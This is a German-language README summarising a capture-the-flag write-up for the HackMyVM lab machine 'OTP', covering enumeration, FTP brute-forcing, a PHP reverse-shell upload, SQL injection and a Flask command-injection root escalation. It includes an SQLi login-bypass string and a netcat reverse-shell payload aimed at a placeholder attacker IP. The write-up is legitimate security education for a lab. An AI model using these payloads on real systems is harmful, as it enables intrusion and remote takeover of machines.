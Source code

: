 # OTP - HackMyVM (Hard)

![OTP.png](OTP.png)

## Übersicht

*   **VM:** OTP
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=OTP)
*   **Schwierigkeit:** Hard
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 12. Oktober 2022
*   **Original-Writeup:** https://alientec1908.github.io/OTP_HackMyVM_Hard/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "OTP" zu erlangen. Der Weg dorthin führte über mehrere Stufen: Zuerst wurde ein virtueller Host (`argon.otp.hmv`) entdeckt, dessen Webseite HTML-Kommentare mit Credentials (`otpuser:#4ck!ng!s!nMybl0od`) enthielt. Parallel wurde über einen fehlkonfigurierten FTP-Dienst (kein chroot jail für Benutzer `david`, dessen Passwort `DAVID` erraten wurde) die Datei `/etc/passwd` heruntergeladen und das Web-Root-Verzeichnis `argon.otp.hmv` als beschreibbar identifiziert. Eine PHP-Reverse-Shell wurde hochgeladen und ausgeführt, was zu Zugriff als `www-data` führte. Als `www-data` wurde ein SQL-Dump (`creds.sql`) mit einem Base32-kodierten String gefunden, der nach Dekodierung das Passwort für den Benutzer `avijneyam` enthielt (`n3v3rG0nn4G!v3y0UuP`). Eine SQL-Injection-Schwachstelle auf einem weiteren VHost (`totp.otp.hmv`) bestätigte diese Credentials. Nach dem Wechsel zu `avijneyam` wurde eine `sudo`-Regel entdeckt, die das Ausführen eines Python Flask-Skripts (`/root/localhost.sh`) als Root erlaubte. Der Quellcode dieser Flask-Anwendung (erreichbar über einen `/SourceCode`-Endpunkt nach Port-Forwarding mit `socat`) offenbarte eine Command Injection-Schwachstelle, die zur finalen Root-Eskalation genutzt wurde.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `fping`
*   `dirsearch`
*   `wfuzz`
*   `cat`
*   `vi` (implizit)
*   Browser (impliziert)
*   `hydra`
*   `ftp`
*   `grep`
*   `nc` (netcat)
*   Python3 (`http.server`, `pty` Modul)
*   `stty`
*   `dcode.fr` (externes Tool)
*   `emn178.github.io` (externes Tool)
*   `su`
*   `passwd`
*   `ls`
*   `sudo`
*   `socat`
*   `curl`
*   `base64`
*   `ffuf`
*   Standard Linux-Befehle (`id`, `export`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "OTP" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web/FTP Enumeration:**
    *   IP-Adresse des Ziels (192.168.2.144 – Abweichung vom ARP-Scan, der .133 fand) identifiziert.
    *   `nmap`-Scan offenbarte Port 21 (FTP, vsftpd 3.0.3), 22 (SSH, OpenSSH 7.9p1), 80 (HTTP, Apache 2.4.38) und 5000 (HTTP, Werkzeug httpd 1.0.1 / Python 3.7.3).
    *   Port 80 (Apache) zeigte keine signifikanten Funde. Anonymer FTP-Login auf Port 21 war erfolgreich.
    *   Mittels `wfuzz` VHost-Enumeration wurde `argon.otp.hmv` entdeckt und in `/etc/hosts` eingetragen.
    *   Auf `http://argon.otp.hmv/profile.html` wurden im HTML-Quellcode Credentials gefunden: `otpuser`:`#4ck!ng!s!nMybl0od`.
    *   Auf `http://argon.otp.hmv/cr3d5_123.html` wurde der Benutzername `david` entdeckt.

2.  **FTP Exploitation & Initial Access (Webshell als `www-data`):**
    *   Mit `hydra` wurde das FTP-Passwort für `david` zu `DAVID` gebruteforced.
    *   FTP-Login als `david:DAVID`. Es wurde festgestellt, dass der Benutzer nicht in sein Home-Verzeichnis (`/srv/ftp`) gechrootet war. `/etc/passwd` wurde heruntergeladen, was die Benutzer `avijneyam` und `david` bestätigte.
    *   Das Web-Root-Verzeichnis `/var/www/otp/argon/u9l04d_` wurde als für alle beschreibbar identifiziert.
    *   Eine PHP-Reverse-Shell (`image.php`) wurde über FTP in dieses Verzeichnis hochgeladen.
    *   Durch Aufrufen von `http://argon.otp.hmv/u9l04d_/image.php` wurde eine Reverse Shell als `www-data` zu einem Netcat-Listener (Port 9001) aufgebaut und stabilisiert.

3.  **Privilege Escalation (von `www-data` zu `avijneyam` via SQL Dump & SQLi):**
    *   Als `www-data` wurde im Verzeichnis `/opt` die Datei `creds.sql` gefunden (lesbar für `www-data`).
    *   `creds.sql` enthielt einen Base32-kodierten String (`NYZX...UAK`), der zu `n3v3rG0nn4G!v3y0UuP` dekodiert wurde.
    *   Eine Apache-Konfigurationsdatei (`/etc/apache2/sites-available/totp.conf`) enthüllte den VHost `totp.otp.hmv`. Dieser wurde in `/etc/hosts` eingetragen.
    *   Auf `http://totp.otp.hmv` führte eine SQL-Injection (`' or 1=1 -- -`) im Login- und OTP-Formular zum Zugriff auf `cr3d54695.html`.
    *   Diese Seite enthielt das vollständige Passwort für `avijneyam`: `n3v3rG0nn4G!v3y0UuP___Cuz_HackMyVM_iS_theRe_nly_4_y0u_:)`.
    *   Mit `su avijneyam` und diesem Passwort wurde erfolgreich zum Benutzer `avijneyam` gewechselt.
    *   Die User-Flag (`2990aa5108d5803f3fdca99c277ba352`) wurde in `/home/avijneyam/flag_user.txt` gefunden.

4.  **Privilege Escalation (von `avijneyam` zu `root` via Flask RCE):**
    *   `sudo -l` als `avijneyam` zeigte, dass das Skript `/root/localhost.sh` als `root` mit Passwort ausgeführt werden durfte (`(root) PASSWD: /bin/bash /root/localhost.sh`).
    *   Das Skript startete einen Python Flask-Entwicklungsserver auf `127.0.0.1:5000`.
    *   Mittels `socat tcp-listen:3333,fork tcp:127.0.0.1:5000 &` wurde der Flask-Server auf Port 3333 extern erreichbar gemacht.
    *   `dirsearch` auf `http://ZIEL_IP:3333/` fand den Endpunkt `/SourceCode`.
    *   `/SourceCode` gab den Base64-kodierten Quellcode der Flask-Anwendung zurück.
    *   Der dekodierte Quellcode zeigte eine Command Injection-Schwachstelle: Die Anwendung nahm PUT-Requests auf `/` mit einem JSON-Body entgegen. Der Wert des leeren JSON-Keys (`""`) wurde direkt an `subprocess.Popen` mit `shell=True` übergeben.
    *   Ein JSON-Payload (`{"": "nc -e /bin/bash ANGRIFFS_IP 5555"}`) wurde per `curl -X PUT` an `http://ZIEL_IP:3333/` gesendet.
    *   Eine Root-Shell wurde auf einem Netcat-Listener (Port 5555) empfangen.
    *   Die Root-Flag (`8a2d55707a9084982649dadc04b426a0`) wurde in `/root/flag_r00t.txt` gefunden.

## Wichtige Schwachstellen und Konzepte

*   **Fehlkonfigurierter FTP-Server (kein chroot):** Erlaubte das Navigieren im Dateisystem und das Herunterladen von `/etc/passwd`.
*   **Global beschreibbares Verzeichnis im Web-Root:** Ermöglichte das Hochladen einer Webshell via FTP.
*   **Information Disclosure:**
    *   Credentials (`otpuser`, MD5-Hash für `admin`) im HTML-Quellcode.
    *   Base32-kodierter String (Teil eines Passworts) in einem SQL-Dump (`creds.sql`).
    *   Vollständiges Passwort für `avijneyam` auf einer Webseite nach SQLi-Bypass.
    *   Quellcode der Flask-Anwendung über einen speziellen Endpunkt (`/SourceCode`).
*   **SQL Injection:** Mehrstufige SQLi zum Umgehen von Login- und OTP-Mechanismen.
*   **Unsichere `sudo`-Regel (Skriptausführung):** Erlaubte `avijneyam`, ein Skript als `root` auszuführen, das einen Webserver startete.
*   **Command Injection in Flask-Anwendung:** Die als Root laufende Flask-Anwendung nahm Benutzereingaben entgegen und führte sie unsicher als Shell-Befehle aus.
*   **VHost Enumeration:** Auffinden der VHosts `argon.otp.hmv` und `totp.otp.hmv`.

## Flags

*   **User Flag (`/home/avijneyam/flag_user.txt`):** `2990aa5108d5803f3fdca99c277ba352`
*   **Root Flag (`/root/flag_r00t.txt`):** `8a2d55707a9084982649dadc04b426a0`

## Tags

`HackMyVM`, `OTP`, `Hard`, `FTP Misconfiguration`, `LFI` (impliziert durch FTP), `File Upload RCE`, `Information Disclosure`, `SQL Injection`, `Base32`, `sudo Exploit`, `Flask RCE`, `Command Injection`, `Linux`, `Web`, `Privilege Escalation`, `Apache`, `vsftpd`, `Werkzeug`
